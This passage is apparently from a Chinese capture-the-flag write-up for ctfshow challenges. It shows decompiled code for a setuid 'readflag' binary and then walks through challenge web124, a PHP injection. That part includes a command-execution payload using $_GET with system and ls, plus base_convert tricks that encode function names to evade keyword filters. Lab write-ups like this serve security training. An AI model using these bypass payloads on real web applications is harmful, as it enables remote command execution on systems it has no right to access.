 如前面提到`readflag`是一个可执行的二进制文件，网上查看大佬读取和反编译得到的一串代码：

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setuid(0);                      // 提升权限为root用户
  puts("ctfshow flag getter");    // 输出一条信息到标准输出
  system("cat /flag36x.txt");     // 执行命令，输出文件 /flag36x.txt 的内容
  return 0;                       // 返回0，表示程序正常结束
}
```

提权后读取，所以执行`readflag`可以读到



#### web124

![image-20250225233926070](assets/image-20250225233926070.png)

可以注意到，限定了输入的长度为80，可以使用_`GET[]`来绕过，

尝试构造

```
c=$_GET[abs]($_GET[acos]);&abs=system&acos=ls 
```

[]被过滤，可以使用{}替换，但是`_GET`被过滤，使用其ascii值转为`_GET`

`_GET`转成十六进制是0x5f474554，由于其中还是包含字母，再由十六进制转为十进制1598506324。

>dechex()：十进制转十六进制
>hex2bin()：十六进制转二进制，返回 ASCII 字符

但是hex2bin被过滤，使用base_convert()进行进制转换，将其转换为数字

> base_convert(number,frombase,tobase)：可以在任意进制之间转换数字

base_convert(‘hex2bin’,36,10)=37907361743

base_convert(37907361743,10,36)=hex2bin
